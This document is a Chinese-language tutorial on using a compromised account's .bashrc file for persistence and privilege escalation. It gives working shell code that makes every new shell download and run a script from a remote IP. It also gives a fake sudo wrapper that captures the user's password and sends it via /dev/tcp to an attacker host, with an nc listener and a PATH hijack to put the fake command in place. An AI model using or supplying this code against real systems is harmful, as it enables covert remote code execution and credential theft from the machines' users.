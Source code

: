 # 利用文件.bashrc提权

文件`.bashrc`是一个位于用户主目录的隐藏文件，用于存储用户的个性化设置。。

文件名末尾的 rc 最初是 ‘run commands’ 的缩写。但现在许多人认为当作‘run control’的缩写更合适。

我们可以在里面设置环境路径、程序的别名、运行提示符等。该文件在生成交互式BASH SHELL的时候会被读取。因此，我们也可以在该文件中执行一些初始化的程序。

## 一、用来执行命令

我们在文件`.bashrc`中添加如下命令：

```bash
echo "I'm tirggered."
```

> 当用户登录的时候就会触发该命令，并显示这行文字。当然，在生成新的bash SHELL时，该命令同样会被触发。

## 二、用来执行程序

既然如此，我们在渗透进系统之后也可以利用该特性执行一些命令。接下来我们利用该特性，让用户在登录的时候从远程下载程序并执行。

- 首先在远程的服务器中准备一个文件`rainbow.sh`。并启动`python3`的`http`服务器模块。将该服务运行于端口8888。
  
  ```bash
  python3 -m http.server 8888
  ```

- 在靶机的`.bashrc`文件中添加以下命令，用以将远程服务器中的程序下载、赋权、执行。
  
  ```bash
  if [ -x '/usr/bin/curl' ]
  then
      echo "curl is installed."
      curl http://106.54.85.100:8888/rainbow.sh >  /tmp/rainbow.sh 2>/dev/null
      if [ -s '/tmp/rainbow.sh' ]
      then
          chmod +x /tmp/rainbow.sh && /tmp/rainbow.sh --rainbow "Program is running."
      fi
  fi
  ```
  
  > 用户在登录或者在生成新的`BASH SHELL`时，会触发该命令。
  > 
  > - 首先判断程序`curl`是否存在。
  > 
  > - 若`curl`存在的话，调用`curl`命令从远程服务器中下载设置好的程序。
  > 
  > - 下载之后对其赋予执行权限并执行。

## 三、用来获取sudo密码

既然我们可以让用户在登录的时候从远程下载程序并运行。我们就可以把这个程序替换为一个假的`sudo`命令，用来获取`sudo`密码。

- 首先我们需要在远程服务器中准备一个假的`sudo`程序。具体思路是设计一个程序作为中间人，获取`sudo`密码并转述命令。代码如下:
  
  ```shell
  #!/bin/bash
  
  /usr/bin/sudo -n true 2> /dev/null
  if test $? -eq 0 
  then
      /usr/bin/sudo $@
  else
      echo -n "[sudo] password for $USER: "
      read -s pwd
      echo
      echo "$pwd" | /usr/bin/sudo -S true 2> /dev/null
  
      if test $? -eq 1 
      then
          distroName=$(awk -F= '/^NAME/{print tolower($2)}' /etc/*-release  | tr -d '"')
          if test[ $distroName == *"centos"* || $distroName == *"red hat"* ]
          then
              echo "Sorry, try again."
          fi
          sudo $@
      else
          if test -x /usr/bin/curl 
          then
              echo -e "sudo password is $pwd" > /dev/tcp/khdxs7.server/8889
          fi
          echo "$pwd" | /usr/bin/sudo -S $@
      fi
  fi
  ```

- 在远程服务器监听端口`8889`，用以接收获得的密码。
  
  ```bash
  nc -lvnp 8889
  ```

- 在靶机`.bashrc`文件中添加以下命令。
  
  ```bash
  if [ -x '/usr/bin/curl' ]
  then
      curl http://khdxs7.server:8888/sudo >/tmp/sudo 2>/dev/null
      if [ -s '/tmp/sudo' ]
      then
          chmod +x /tmp/sudo && export PATH=/tmp:$PATH
      else
          rm -f /tmp/sudo
      fi
  fi
  ```
  
  > 用户在登录或者在生成新的`BASH SHELL`时，会触发该命令。
  > 
  > - 首先判断程序`curl`是否存在。
  > 
  > - 若`curl`存在的话，调用`curl`命令从远程服务器中下载设置好的程序。
  > 
  > - 判断是否下载成功（检查文件是否存在且至少有一个字符）。
  > 
  > - 下载成功之后对其赋予执行权限并执行。
  > 
  > - 将假的`sudo`程序添加到路径中。

这样一来，只要用户登录或者生成新的`BASH SHELL`，`sudo`程序就会被替换。用户一旦使用`sudo`来执行命令，密码就会被发送到服务器的`8889`端口。

---

KHDXS7
